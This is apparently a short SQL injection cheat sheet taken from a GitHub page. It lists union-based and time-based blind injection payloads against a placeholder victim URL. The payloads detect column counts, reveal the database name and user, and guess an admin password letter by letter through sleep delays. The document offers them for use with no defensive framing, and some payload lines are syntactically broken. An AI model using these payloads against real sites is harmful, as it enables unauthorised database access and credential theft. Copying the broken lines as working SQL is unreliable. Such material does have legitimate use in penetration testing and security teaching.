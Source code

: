 
**UNION-BASED:**

Selecting from multiple tables/columns and then enumerating data on the column that is reflected in the web page

```powershell
$PARAMETER                               :The get parameter sud as "id=" or "news=" with the "=" calling on a variable
$RHOST                                   :Target URL webpage
$RHOST/newsdetails.php?$PARAMETER=$VALUE :Example www.website.com/newsdetails.php?id=26

#COLUMNS
$T1, $T2, $T3             :Testing for number of columns; will return non-error webpage if correct
$database()               :Find column reflected on webpage & display "database name"
$user()                   :Display current "username"

victim.site/view.php?id=' UNION SELECT $T1, $TABLE2, $TABLE3;-- -
victim.site/view.php?id=' UNION SELECT $T1, database();-- -
victim.site/view.php?id=' UNION SELECT $T1, user();-- -
```

---

**TIME-BASED BLIND:**

Using a `sleep(5)` mechanism to force a page to take a set amount of a time to load if the *statement is True*. 
This will allow the attacker to determine and gather information based on asking **True/False** questions.

```powershell
$PARAMETER                               :The get parameter sud as "id=" or "news=" with the "=" calling on a variable
$RHOST                                   :Target URL webpage
$RHOST/newsdetails.php?$PARAMETER=$VALUE :Example www.website.com/newsdetails.php?id=26

#COLUMNS
sleep(5), $T1, $T2, $T3             :Testing for number of columns; will return non-error webpage if correct
$database() like 'u%'               :Enumerate "database name" with each letter. sleep(5) to determine True/False on each letter in password.
$USER, $PASS                        :Enumerate individual password manually, "password like 'u%';-- -". sleep(5) to determine True/False on each letter in password.
abc%                                :Wildcard % used to test for True statement. Example password starts with "abc......"

victim.site/view.php?id=' UNION SELECT sleep(5), $T1, $T2, $T3;-- -
victim.site/view.php?id=' UNION SELECT sleep(5), $T1, WHERE database() like 'u%';-- -
victim.site/view.php?id=' UNION SELECT sleep(5), $T1, FROM users WHERE username='admin' AND password like 'u%';-- -
```


---
